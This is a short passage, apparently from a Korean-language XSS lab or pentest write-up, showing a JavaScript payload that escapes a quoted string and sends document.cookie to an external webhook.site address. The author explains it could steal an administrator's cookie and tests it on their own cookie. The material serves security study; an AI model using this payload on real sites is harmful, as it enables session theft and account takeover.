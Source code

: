 이를 이용하여 관리자의 쿠키를 탈취할 수 있다.

![xss2 payload](/assets/screenshots/stored-reflected-xss/xss2_payload.png)

```js
');new Image().src='https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie='+document.cookie//
```

위 페이로드를 이용해 직접 본인의 쿠키가 외부 서버(Webhook)로 전송되는지 확인 테스트를 수행하였다. 

> **결과:**

![xss2 payload](/assets/screenshots/stored-reflected-xss/xss2_me_cookie.png)
